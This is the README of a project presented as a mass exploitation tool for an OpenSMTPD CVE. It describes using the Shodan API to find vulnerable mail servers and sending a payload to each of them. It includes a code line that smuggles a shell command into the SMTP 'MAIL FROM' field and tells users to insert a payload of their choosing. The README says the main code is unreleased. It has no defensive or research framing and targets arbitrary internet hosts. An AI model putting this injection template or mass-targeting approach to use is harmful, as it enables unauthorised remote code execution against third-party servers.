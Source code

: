 # OpenSMTPD
A mass exploitation tool for CVE 2020-8793 

----------------------------------------------------------------------------------

# Info

The Shodan API to find vulnerable devices and mass sends a payload to the target

To customize the payload :
s.send(bytes(f'MAIL FROM:<;{payload};>\r\n', 'utf-8'))
Change the variable 'payload' to your desired payload 

----------------------------------------------------------------------------------


# TODO

- [ ] Release Main Code
- [ ] Add Threading
- [ ] Add Payload Input
- [ ] Make Error Outputs
- [ ] Make Time Logs

----------------------------------------------------------------------------------

# Systems

- Tested Systems:
  - Parrot OS Home
  - Kali Linux Mate
  - Windows 10
  - Windows 7
  - Ubuntu 20.2

----------------------------------------------------------------------------------

# Example

![Example](https://i.imgur.com/CYeopPK.png)

